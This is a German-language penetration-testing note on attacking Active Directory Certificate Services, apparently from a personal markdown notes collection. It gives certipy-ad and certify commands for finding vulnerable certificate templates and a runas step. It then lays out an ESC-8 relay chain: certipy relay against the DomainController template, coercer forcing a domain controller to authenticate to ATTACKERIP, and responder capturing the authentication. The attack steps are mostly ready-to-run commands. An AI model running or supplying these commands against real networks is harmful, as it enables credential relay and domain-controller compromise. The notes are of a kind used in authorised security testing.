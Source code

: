 
## ADCS - Active Directory Certificate Service

### Zertifikate anfragen - Linux

Mit `certipy-ad` ist es möglich Zertifikate zu dumpen.
Dazu muss die Domänen Controller IP ausfindig gemacht werden. Falls man sich in einem internen Netz befindet, stehen die Chancen hoch, dass diese per DNS übermittelt wurden. Dazu kann man einfach in der `/etc/resolv.conf` nachschauen.

Mit der DCIP können dann die Zertifikate angefragt werden.

```bash
certipy-ad find -u USER -p PASSWORD -dc-ip DCIP -text
```

Falls bei der Ausführung ein Fehler geworfen wird, sollte trotzdem ein Output File erstellt worden sein, in dem die Zertifikate gelistet sind.(Stand 2024-07-30)

Das Output File kann im Anschluss mit `grep -i Vuln -A1 FILE` nach verwundbaren Zertifikaten durchsucht werden.

### Zertifikate anfragen - Windows

Mit `certify` können unter Windows Zertifikate ausgelesen werden. Entsprechende Binaries gibt es im [Ghostpack-CompiledBinaries Repo](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

Die Binary muss als Domänen Benutzer ausgeführt werden. Dazu einfach eine CMD oder Powershell Session als Domänen starten und `certify` ausführen.

```powershell
runas /user:DOMAIN\USER /netonly powershell
```

Im neuen Konsolen Fenster wird dann certify ausgeführt.

```powershell
certify.exe find /vulnerable /currentuser
```

### ESC-8

Um die Authentifizierung an die CA umzuleiten kann das `certipy relay` Modul verwendet werden.

```bash
certipy relay -template DomainController -ca CA-NAME -target CA-DNS-NAME (-upn ALTERNATIVENUPN)
```

Daraufhin erzwingen wir eine Domain Controller anmeldung gegen ein geeignetes Ziel.
- [ ] ESC-8 Coercing wen gegen wen authentifizieren ➕ 2024-07-30

```bash
coercer coerce -v -u USER -d DOMAIN -l ATTACKERIP -t TARGETIP
```

Um Authentifizierungsabfragen anzunehmen muss noch `responder` gestartet werden.

```bash
sudo responder -A -I INTERFACE-TO-LISTEN-ON
```

## SMB
